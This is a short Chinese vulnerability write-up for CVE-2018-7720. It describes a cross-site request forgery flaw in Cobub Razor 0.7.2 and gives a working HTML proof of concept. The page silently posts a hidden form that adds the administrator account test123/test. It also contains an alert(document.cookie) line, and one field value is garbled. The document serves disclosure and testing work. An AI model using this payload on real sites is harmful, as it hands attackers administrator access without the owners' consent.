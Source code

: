 （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞
=======================================================

一、漏洞简介
------------

Cobub Razor
0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。

二、漏洞影响
------------

Cobub Razor 0.7.2

三、复现过程
------------

### POC

    <body>
      <script>alert(document.cookie)</script>
        <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
          <input type="hidden" name="username" value="test123" />
          <input type="hidden" name="email" value="test@test123.test" />
          <input type="hidden" name="password" value="test" />
          <input type="hidden" name="confirm_password" value="test" />
          <input type="hidden" name="userrole" value="3" />
          <input type="hidden" name="user/ccreateNewUser" value="�ˆ›�»�" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
